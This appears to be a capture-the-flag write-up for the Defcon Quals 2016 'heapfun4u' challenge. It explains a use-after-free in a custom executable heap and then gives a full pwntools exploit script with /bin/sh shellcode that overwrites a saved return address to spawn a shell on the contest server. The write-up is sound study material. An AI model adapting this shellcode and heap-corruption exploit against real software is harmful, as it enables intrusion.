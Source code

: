 ```yaml
---
title:      Defcon Quals 2016 - Heapfun4u 
author:     giosch + frydrichas + marcof
date:       2016-05-31 12:00:00
summary:    custom heap, use-after-free, return-to-shellcode 
categories: DefconQuals2016
tags:
 - Defcon Quals
 - heapfun4u
 - Exploitable
 - heap
 - shellcode
 - after-free
 - 2016
---
```


This challenge is a memory manager that implements a custom "heap", allocated using mmap, with the permissions bitmap set to `rwx`.
We have a main menu in which we can perform the following operations:

* `[A]llocate Buffer`: "malloc" of an arbitrary size.
* `[F]ree Buffer`: "free" the chunk we select. Also list all the chunks and the respective addresses.
* `[W]rite Buffer`: let us write in the data part of the specified chunk.
* `[N]ice guy`:  print an address of a variable of the stack.
* `[E]xit`: quit the program.

All chunks' pointers are saved in a global array (so there is a limit to their number, but the check on that is well made), but when you free a chunk, the pointer is not deleted from the array, so we can still write on it.

Inspecting the memory with qira, we saw that when we free a chunk with another allocate chunk after that, a pointer is saved at the end of the freed area. That address point to what we think is the "top chunk size", so where the next "malloc" will allocate the next chunk.

We tried to edit it writing on a freed chunk, and we managed to change the allocation point of the next chunk inside another chunk previously declared (inside that chunk data we put a "valid" top chunk size).

So we have something like an arbitrary write, an executable "heap" and a stack address (and no canary to worry about). Out first thought is to overwrite the saved return address of the main on the stack, forcing the program to jump on a shellcode on the executable heap.

At first we tried just writing stuff on the stack, but it didn't work. Then marcof noticed that maybe not only the top chunk size pointer that we can overwrite need to point to a valid top chunk size, but after the malloc, the nex top chunk size should maybe be on a previous memory area with all zeroes.
With qira we found the addresses on the stack of a valid top chunk size and a length for the malloc that allowed us to make the chunk stop on an area with zeroes.That suddenly worked, so we proceded to write the exploit in python using the pwntools.




{% highlight Python%} 
#!/usr/bin/python

from pwn import *

r = remote("heapfun4u_873c6d81dd688c9057d5b229cf80579e.quals.shallweplayaga.me",3957)

#r  = remote("localhost",4000)

def allocate(size):
    r.sendline("A")
    r.recvuntil("Size: ")
    r.sendline(str(size))
    r.recvuntil("| ")



def free(index):
    r.sendline("F")
    r.recvuntil("Index: ")
    r.sendline(str(index))
    r.recvuntil("| ")

def write(index, what):
    r.sendline("W")
    r.recvuntil("Write where: ")
    r.sendline(str(index))
    r.recvuntil("Write what: ")
    r.sendline(what)
    r.recvuntil("| ")

def nice():
    r.sendline("N")
    r.recvuntil("Here you go: ")
    leak = r.recvuntil("[A]")
    leak = leak[:-4]
    r.recvuntil("| ")
    return int(leak,16)

def esci():
        r.sendline("E")

def setAddress(addr):
    write(1,p64(addr))

def allocate_(size,payload):
    r.sendline("A"+payload)
    r.recvuntil("Size: ")
    r.sendline(str(size))
    r.recvuntil("| ")

   

allocate(16)
allocate(100)
allocate(100)
free(1)
stack = nice()
print "Stack leak -> " + hex(nice())
payload = p64(nice())+"\x00"*7
write(1,payload)
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
write(3,shellcode)

context.log_level = 'DEBUG'
setAddress(nice()+28)
allocate_(384,"A"*7+p64(0x190)) #sarebbe 180 ma abbondo

r.sendline("W")
r.recvuntil("3) ");
heap_addr = r.recvuntil("4) ");
heap_addr = heap_addr[:-11];
print heap_addr
r.recvuntil("Write where: ")
r.sendline("4")
r.recvuntil("Write what: ")
r.sendline("A"*280+p64(int(heap_addr,16))+"C"*95)
r.recvuntil("| ")
esci()
r.interactive()

{% endhighlight %}

~ giosch
